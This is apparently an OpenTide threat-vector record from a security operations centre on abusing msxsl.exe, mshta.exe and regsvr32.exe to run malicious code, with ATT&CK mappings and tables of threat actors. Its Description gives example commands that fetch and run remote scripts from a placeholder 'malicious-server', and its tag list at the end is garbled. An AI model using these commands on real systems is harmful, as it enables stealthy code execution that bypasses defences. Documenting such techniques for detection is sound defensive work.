

# ☣️ Malicious Code Execution with Windows Utilities

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1218.005 : System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa'), [T1218.010 : System Binary Proxy Execution: Regsvr32](https://attack.mitre.org/techniques/T1218/010 'Adversaries may abuse Regsvr32exe to proxy execution of malicious code Regsvr32exe is a command-line program used to register and unregister object li')


---

`🔑 UUID : d5892ae6-d022-4ac8-858c-c2756067cdac` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2024-11-04` **|** `🗓️ Last Modification : 2024-11-04` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> ### 1. Msxsl.exe
> 
> **Description**: A command-line XSLT processor that can transform XML data using 
> XSL style sheets. Attackers can craft malicious XSL files that execute arbitrary 
> code when processed.
> 
> Example:
> 
> ```
> msxsl.exe input.xml malicious.xsl
> ```
> 
> ### 2. Mshta.exe
> **Description**: Executes Microsoft HTML Applications (HTA files). Threat actors use it 
> to run malicious scripts hosted locally or remotely.
> 
> Example:
> 
> ```
> mshta.exe "http://malicious-server/payload.hta"
> ```
> 
> ### 3. Regsvr32.exe
> **Description**: Registers and unregisters OLE controls like DLLs and ActiveX controls. 
> Threat actors can use it to execute code via scripts.
> 
> Example:
> 
> ```
> regsvr32.exe /s /n /u /i:http://malicious-server/script.sct scrobj.dll
> ```


## 🖥️ Terrain 

 > Threat Actor must have the ability to execute code on a Windows system where the 
> specified utilities Msxsl.exe, Mshta.exe, and Regsvr32.exe are present. 
> This often requires initial access through phishing, exploitation of vulnerabilities, 
> or use of valid credentials.
> 

---

## 🕸️ Relations


### 🐲 Actors sightings 

| Actor                     | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Aliases                                                                                                                                                                                                                                                                                                   | Source                     | Sighting               | Reference                |
|:--------------------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------------------|:-------------------------|
| [ICS] FIN7                | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022)                                                                                                                                                                                                                                                                                                                                                                                                                                                    | Carbon Spider, ELBRUS, GOLD NIAGARA, ITG14, Sangria Tempest                                                                                                                                                                                                                                               | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| FIN7                      | Groups targeting financial organizations or people with significant financial assets.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | CARBON SPIDER, GOLD NIAGARA, Calcium, ATK32, G0046, G0008, Coreid, Carbanak, Sangria Tempest, ELBRUS, Carbon Spider, JokerStash                                                                                                                                                                           | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [Enterprise] Cobalt Group | [Cobalt Group](https://attack.mitre.org/groups/G0080) is a financially motivated threat group that has primarily targeted financial institutions since at least 2016. The group has conducted intrusions to steal money via targeting ATM systems, card processing, payment systems and SWIFT systems. [Cobalt Group](https://attack.mitre.org/groups/G0080) has mainly targeted banks in Eastern Europe, Central Asia, and Southeast Asia. One of the alleged leaders was arrested in Spain in early 2018, but the group still appears to be active. The group has been known to target organizations in order to use their access to then compromise additional victims.(Citation: Talos Cobalt Group July 2018)(Citation: PTSecurity Cobalt Group Aug 2017)(Citation: PTSecurity Cobalt Dec 2016)(Citation: Group IB Cobalt Aug 2017)(Citation: Proofpoint Cobalt June 2017)(Citation: RiskIQ Cobalt Nov 2017)(Citation: RiskIQ Cobalt Jan 2018) Reporting indicates there may be links between [Cobalt Group](https://attack.mitre.org/groups/G0080) and both the malware [Carbanak](https://attack.mitre.org/software/S0030) and the group [Carbanak](https://attack.mitre.org/groups/G0008).(Citation: Europol Cobalt Mar 2018)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Cobalt Gang, Cobalt Spider, GOLD KINGSWOOD                                                                                                                                                                                                                                                                | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| Cobalt                    | A criminal group dubbed Cobalt is behind synchronized ATM heists that saw machines across Europe, CIS countries (including Russia), and Malaysia being raided simultaneously, in the span of a few hours. The group has been active since June 2016, and their latest attacks happened in July and August.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Cobalt Group, Cobalt Gang, GOLD KINGSWOOD, COBALT SPIDER, G0080, Mule Libra                                                                                                                                                                                                                               | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [Mobile] APT28            | [APT28](https://attack.mitre.org/groups/G0007) is a threat group that has been attributed to Russia's General Staff Main Intelligence Directorate (GRU) 85th Main Special Service Center (GTsSS) military unit 26165.(Citation: NSA/FBI Drovorub August 2020)(Citation: Cybersecurity Advisory GRU Brute Force Campaign July 2021) This group has been active since at least 2004.(Citation: DOJ GRU Indictment Jul 2018)(Citation: Ars Technica GRU indictment Jul 2018)(Citation: Crowdstrike DNC June 2016)(Citation: FireEye APT28)(Citation: SecureWorks TG-4127)(Citation: FireEye APT28 January 2017)(Citation: GRIZZLY STEPPE JAR)(Citation: Sofacy DealersChoice)(Citation: Palo Alto Sofacy 06-2018)(Citation: Symantec APT28 Oct 2018)(Citation: ESET Zebrocy May 2019)[APT28](https://attack.mitre.org/groups/G0007) reportedly compromised the Hillary Clinton campaign, the Democratic National Committee, and the Democratic Congressional Campaign Committee in 2016 in an attempt to interfere with the U.S. presidential election.(Citation: Crowdstrike DNC June 2016) In 2018, the US indicted five GRU Unit 26165 officers associated with [APT28](https://attack.mitre.org/groups/G0007) for cyber operations (including close-access operations) conducted between 2014 and 2018 against the World Anti-Doping Agency (WADA), the US Anti-Doping Agency, a US nuclear facility, the Organization for the Prohibition of Chemical Weapons (OPCW), the Spiez Swiss Chemicals Laboratory, and other organizations.(Citation: US District Court Indictment GRU Oct 2018) Some of these were conducted with the assistance of GRU Unit 74455, which is also referred to as [Sandworm Team](https://attack.mitre.org/groups/G0034). | FROZENLAKE, Fancy Bear, Forest Blizzard, Group 74, GruesomeLarch, IRON TWILIGHT, Pawn Storm, SNAKEMACKEREL, STRONTIUM, Sednit, Sofacy, Swallowtail, TG-4127, Threat Group-4127, Tsar Team                                                                                                                 | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| APT28                     | The Sofacy Group (also known as APT28, Pawn Storm, Fancy Bear and Sednit) is a cyber espionage group believed to have ties to the Russian government. Likely operating since 2007, the group is known to target government, military, and security organizations. It has been characterized as an advanced persistent threat.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Pawn Storm, FANCY BEAR, Sednit, SNAKEMACKEREL, Tsar Team, TG-4127, STRONTIUM, Swallowtail, IRON TWILIGHT, Group 74, SIG40, Grizzly Steppe, G0007, ATK5, Fighting Ursa, ITG05, Blue Athena, TA422, T-APT-12, APT-C-20, UAC-0028, FROZENLAKE, Sofacy, Forest Blizzard, BlueDelta, Fancy Bear, GruesomeLarch | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |

### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.


 --- 

### ⛓️ Threat Chaining




<details>
<summary>Expand chaining data</summary>

| ☣️ Vector                                                                                                                                                                                                                                                                                            | ⛓️ Link                 | 🎯 Target                                                                                                                                                                                                                                               | ⛰️ Terrain                                                                                                                                                                                          | 🗡️ ATT&CK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [Malicious Code Execution with Windows Utilities](../Threat%20Vectors/☣️%20Malicious%20Code%20Execution%20with%20Windows%20Utilities.md '### 1 MsxslexeDescription A command-line XSLT processor that can transform XML data using XSL style sheets Attackers can craft malicious XSL files tha...') | `atomicity::implements` | [Abuse of Windows Utilities](../Threat%20Vectors/☣️%20Abuse%20of%20Windows%20Utilities.md 'Advanced threat actors frequently abuse legitimate Windows utilities to execute malicious code, evade detection, and maintain persistence This techniq...') | Adversaries must have access to a Windows environment where they can execute  built-in utilities. Limited user privileges may suffice,  but administrative privileges enhance the potential impact. | [T1218](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B'), [T1197](https://attack.mitre.org/techniques/T1197 'Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks Windows Background Intelligent Transfer Service BITS'), [T1218.004](https://attack.mitre.org/techniques/T1218/004 'Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility InstallUtil is a command-line utility that allows for ins'), [T1563](https://attack.mitre.org/techniques/T1563 'Adversaries may take control of preexisting sessions with remote services to move laterally in an environment Users may use valid credentials to log i'), [T1140](https://attack.mitre.org/techniques/T1140 'Adversaries may use Obfuscated Files or InformationhttpsattackmitreorgtechniquesT1027 to hide artifacts of an intrusion from analysis They may require'), [T1218.010](https://attack.mitre.org/techniques/T1218/010 'Adversaries may abuse Regsvr32exe to proxy execution of malicious code Regsvr32exe is a command-line program used to register and unregister object li'), [T1218.005](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa') |

</details>
&nbsp; 


---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`⚡ Execution`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : Techniques that result in execution of attacker-controlled code on a local or remote system.

---

#### **🛰️ Domains**

 > Infrastructure technologies domain of interest to attackers.

 `🏢 Enterprise` : Generic databases, applications, machines and systems that are usually on premises or on Cloud traditional VMs.

---

#### **🎯 Targets**

 > Granular delimited technical entities holding a value to the organization, that are targeted by adversaries. They might be also involved in the detection coverage as the target of log collection. Partially inspired by Veris.

  - [`🛠️ Virtual Machines`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`🖥️ Workstations`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`💻 Laptop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Laptop

---

#### **💿 Platforms concerned**

 > Actual technologies used by the organization that will be exploited by adversaries during a successful attack, and eventually of relevance for detection. Are named by commercial designation.

  - ` Windows` : Placeholder
 - ` Active Directory` : Placeholder
 - ` PowerShell` : Placeholder

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`⚠️ Significant incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

  - [`💅 Elevation of privilege`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Capacity to augment leverage over the target system by upgrading the compromised access rights
 - [`🐒 Tampering`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action intending to maliciously change or modify persistent data, such as records in a database, and the alteration of data in transit between two computers over an open network, such as the Internet.
 - [`👻 Spoofing`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action aimed at accessing and use of another user’s credentials, such as username and password.

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

  - [`🔓 Data Breach`](http://veriscommunity.net/enums.html#section-impact) : Non-public information has been accessed from the outside, and successfully extracted.
 - [`🛑 Business disruption`](http://veriscommunity.net/enums.html#section-impact) : Business disruption
 - [`🌍 Reputational Damages`](http://veriscommunity.net/enums.html#section-impact) : Damages to the organization public view may be achieved by using directly the access gained, or indirectly with data gathered.
 - [`⚖️ Legal and regulatory`](http://veriscommunity.net/enums.html#section-impact) : Legal and regulatory costs

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---


---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #


